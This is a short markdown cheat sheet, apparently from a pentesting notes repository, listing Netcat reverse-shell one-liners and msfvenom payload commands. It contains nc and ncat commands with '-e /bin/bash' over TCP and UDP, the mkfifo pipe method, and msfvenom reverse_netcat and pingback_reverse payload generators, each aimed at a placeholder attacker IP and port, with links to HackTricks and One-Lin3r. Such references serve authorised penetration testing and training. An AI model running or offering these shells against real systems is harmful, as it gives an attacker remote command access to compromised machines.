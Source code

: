 # Netcat

## 01 - One-liners

### 1.1 - Traditional GNU Method

```
$ nc <IP> <PORT> -e /bin/sh

$ nc <IP> <PORT> -e /bin/bash
```

### 1.2 - Ncat

TCP method.

```
$ ncat <IP> <PORT> -e /bin/bash
```

UDP method.

```
$ ncat -u <IP> <PORT> -e /bin/bash
```

### 1.3 - OpenBSD Method

```
$ mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <IP> <PORT> > /tmp/f; rm /tmp/f

$ mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc <IP> <PORT> > /tmp/f; rm /tmp/f
```

## 02 - Generate via `msfvenom`

### 2.1 - OpenBSD Method

```
$ msfvenom -p cmd/unix/reverse_netcat lhost=<IP> lport=<PORT>
```

### 2.2 - Traditional GNU Method

```
$ msfvenom -p cmd/unix/reverse_netcat_gaping lhost=<IP> lport=<PORT>
```

### 2.3 - ICMP Method

```
$ msfvenom -p cmd/unix/pingback_reverse lhost=<IP> lport=<PORT>
```

---
## References

- [Hacktricks: Shells Linux](https://book.hacktricks.xyz/shells/shells/linux)

- [D4Vinci: One-Lin3r](https://github.com/D4Vinci/One-Lin3r)